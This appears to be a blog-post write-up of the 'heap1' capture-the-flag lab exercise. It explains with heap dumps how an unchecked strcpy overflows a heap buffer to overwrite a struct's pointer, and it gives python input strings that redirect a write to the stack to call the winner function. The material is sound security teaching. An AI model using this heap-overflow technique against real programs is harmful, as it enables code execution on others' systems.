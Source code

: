 ```yaml
---
title:  "Writeup: heap1"
date:   2019-04-22 
categories: writeup
layout: post
author: Robaire Galliath
---
```


Before diving into heap1 it is important to understand what we have to work with. Looking at the source code it is clear that much like in heap0 we need to call the function `winner` to read the flag.

```c
void winner()
{
  char buffer[64];
  FILE *fp;

  printf("and we have a winner @ %d\n", time(NULL));

  fp = fopen("./flag.txt", "r");

  fgets(buffer, 64, (FILE*)fp);
  printf("flag: %s\n", buffer);
}
```
Of course looking at main, there is no direct way to call winner like there was in heap0.

```c
int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

What we do see in main is that some memory is being allocated on the heap. In total four items are malloc'd, two instances of the struct `internet` and two eight byte arrays. 

Lets break down exactly what is happening.

1. First the `internet` struct is malloc'd.

```c
struct internet {
  int priority;
  char *name;
};
```

```c
i1 = malloc(sizeof(struct internet));
```

This allocates at least eight bytes, four for the integer `priority` and another four to store the pointer to `name`.

2. Then the value of `priority` is set.

```c
i1->priority = 1;
```

3. Finally eight bytes are malloc'd, and the address of that chunk is stored in `name`.

```c
i1->name = malloc(8);
```

So what exactly does that look like in memory? I used the gef plugin for gdb to get a nice printout of the heap right after all four objects are malloc'd. 

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b028, size=0x10, flags=PREV_INUSE)
    [0x0804b028     02 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    ....8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     00 00 00 00 00 00 00 00 00 00 00 00 c1 0f 02 00    ................]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

There is a lot going on here so let's break it down by chunk.

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
```

This first chunk represents the first `internet` struct. It begins at address `0x804b008` and is sixteen bytes long. The first four bytes are the `priority` integer, and in this case it has been set to 1, `01 00 00 00`. The next four bytes, `18 b0 04 08`, is the pointer to `name`. Then there are eight extra bytes that store some metadata about the chunk, but that is not important and can be ignored.

```ruby
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00    ................]
```

This second chunk stores the eight bytes that were malloc'd to store `name`. Notice that the address of this chunk is the same address that was stored in bytes five through eight of the previous chunk.

The remaining two chunks are structured the same as the first two, just with different values. 


After memory is allocated, the first two arguments to the program are copied into `name` using `strcopy`. Our exploit will rely on the fact that `strcopy` has no idea how many bytes to write and will readily overflow the buffer it is writing to.

```c
strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

But for now lets read in some simple inputs and see what happens. In this case heap1 was given `aaaaaaaa` and `bbbbbbbb` as command line arguments. Looking at the heap after the calls to `strcpy` we can clearly see the strings we provided as series of 61's and 62's.

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 00 00 00 00 11 00 00 00    aaaaaaaa........]
Chunk(addr=0x804b028, size=0x10, flags=PREV_INUSE)
    [0x0804b028     02 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    ....8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     62 62 62 62 62 62 62 62 00 00 00 00 c1 0f 02 00    bbbbbbbb........]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

It is important to understand what exactly is happening when `strcopy` is called. 

```c
strcpy(i1->name, argv[1]);
```

The address `strcpy` will write to is stored in `i1`. In this case it is `0x0804b018`. `strcpy` will then start writing bytes beginning at that address.

Remember how `strcpy` will write as many bytes as you tell it to? Let's see what happens when we pass it more than sixteen bytes (the total size of chunk 2).

```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x804b028, size=0x61616160, flags=PREV_INUSE)
    [0x0804b028     61 00 00 00 38 b0 04 08 00 00 00 00 11 00 00 00    a...8...........]
Chunk(addr=0x804b038, size=0x10, flags=PREV_INUSE)
    [0x0804b038     62 62 62 62 62 62 62 62 00 00 00 00 c1 0f 02 00    bbbbbbbb........]
Chunk(addr=0x804b048, size=0x20fc0, flags=PREV_INUSE)  ←  top chunk
```

The seventeenth `a` got written into the chunk for `i2`. If we wrote a few more bytes we could overwrite the address stored in `i2` to point anywhere we want. Then the second call to `strcpy` will write to that new address instead of writing into chunk 4 like it should. This gives us the power to write what ever we want, where ever we want.

As an example lets use `python -c "print 'a'*20 + '\x10\x10\x10\x10'"` as our input.
```ruby
Chunk(addr=0x804b008, size=0x10, flags=PREV_INUSE)
    [0x0804b008     01 00 00 00 18 b0 04 08 00 00 00 00 11 00 00 00    ................]
Chunk(addr=0x804b018, size=0x10, flags=PREV_INUSE)
    [0x0804b018     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x804b028, size=0x61616160, flags=PREV_INUSE)
    [0x0804b028     61 61 61 61 10 10 10 10 00 00 00 00 11 00 00 00    aaaa............]
```
Now the second call to `strcpy` will write our b's to address `0x10101010`.


If we know where the top of the stack is, we can now use this method to overwrite the return address so that when `main` exits, `winner` is called instead. We have used this technique several times already. Using gdb we can find out the address of `winner` is `0x804854b`. So we need to write that somewhere near the top of the stack. 

So our first arugment needs to overwrite the address stored in the second struct.
```python
python -c "print 'a'*20 + '\x??\x??\x??\x??'"
```

And the second argument needs to be the address of `winner`.
```python
python -c "print '\x4b\x85\x04\x08'"
```

(To make things a little easier you might want to write more than one copy of `0x804854b`.) 

